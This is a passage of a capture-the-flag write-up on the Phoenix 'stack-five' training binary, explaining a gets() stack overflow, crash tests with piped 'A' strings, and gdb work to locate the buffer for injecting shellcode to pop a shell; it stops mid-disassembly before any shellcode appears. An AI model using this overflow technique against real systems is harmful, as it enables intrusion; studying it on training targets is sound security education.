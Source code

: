int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```

In HINT they have mentioned that this challenge is something related to "shellcode"

Our aim on this challenge is to execute our shellcode in stack and pop a shell

Important things to note in this binary are,

```
  char buffer[128];
  gets(buffer);
```

Our ```buffer``` is large enough to accomodate our shellcode

```gets()``` is used, so we can use this as our advantage to perform an overflow attack

First lets try to crash this binary,

```
user@phoenix-amd64:~$ python -c "print('A'*100)"|./stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
user@phoenix-amd64:~$ python -c "print('A'*128)"|./stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
Segmentation fault
user@phoenix-amd64:~$ python -c "print('A'*150)"|./stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
Segmentation fault
```

So we are able to crash our binary

We will analyse it further in our debugger

Inorder to pass a shellcode and execute is successfully, we must point our ```$rip``` return address correctly to the address where shellcode is placed

Here we will be passing shellcode into our ```buffer```

So we need to know the starting address of the ```buffer```

```
   0x0000000000400595 <+8>:	    lea    rax,[rbp-0x80]
   0x0000000000400599 <+12>:	mov    rdi,rax
   0x000000000040059c <+15>:	call   0x4003f0 <gets@plt>
```

Since ```gets()``` is used to store the data inside ```buffer```, we can use break point to analyse the value of ```rbp-0x80``` which is the starting address of ```buffer```

Setting breakpoint,

```
(gdb) disassemble start_level
Dump of assembler code for function start_level:
   0x000000000040058d <+0>:	    push   rbp
   0x000000000040058e <+1>:	    mov    rbp,rsp
   0x0000000000400591 <+4>:	    add    rsp,0xffffffffffffff80
   0x0000000000400595 <+8>:	    lea    rax,[rbp-0x80]
   0x0000000000400599 <+12>:	mov    rdi,rax
   0x000000000040059c <+15>:	call   0x4003f0 <gets@plt>